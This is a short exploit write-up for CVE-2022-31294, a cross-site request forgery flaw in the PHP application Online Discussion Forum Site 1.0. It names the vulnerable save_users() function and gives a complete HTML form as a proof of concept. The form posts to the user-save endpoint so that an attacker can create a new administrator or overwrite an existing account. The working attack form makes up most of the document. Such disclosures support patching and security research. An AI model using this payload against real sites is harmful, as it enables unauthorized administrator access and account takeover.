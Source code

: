 # CVE-2022-31294

Online Discussion Forum Site 1.0 - Account Takeover

#### Exploit Title: Online Discussion Forum Site 1.0 - CSRF Create New/Update Existing Admin User _[Account Takeover]_
#### Date:  2022-06-13
#### CVE:  CVE-2022-31294
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


[#] Vulnerability Location:
	`function save_users()` in `/odfs/classes/Users.php:13`

----

[#] Exploitation:
	```
	 <form action="http://localhost/odfs/classes/Users.php?f=save" method="post" id="manage-user">	
				<input type="text" name="id" value="" placeholder="Keep empty if you want to create new user / put user ID to edit existing user">
				<div class="form-group">
					<label for="name">First Name</label>
					<input type="text" name="firstname" id="firstname" class="form-control" value="" required>
				</div>
				<div class="form-group">
					<label for="name">Middle Name</label>
					<input type="text" name="middlename" id="middlename" class="form-control" value="">
				</div>
				<div class="form-group">
					<label for="name">Last Name</label>
					<input type="text" name="lastname" id="lastname" class="form-control" value="" required>
				</div>
				<div class="form-group">
					<label for="username">Username</label>
					<input type="text" name="username" id="username" class="form-control" value="" required  autocomplete="off">
				</div>
				<div class="form-group">
					<label for="password"> Password</label>
					<input type="password" name="password" id="password" class="form-control" value="" autocomplete="off">
                    				</div>
                <div class="form-group">
                    <label for="type" class="control-label">Type</label>
                    <select name="type" id="type" class="form-control form-control-sm rounded-0" required>
                    <option value="1" >Administrator</option>
                    <option value="2" >Registered User</option>
                    </select>
                </div>
                <button type="submit">Save</button>
	</form>
	```

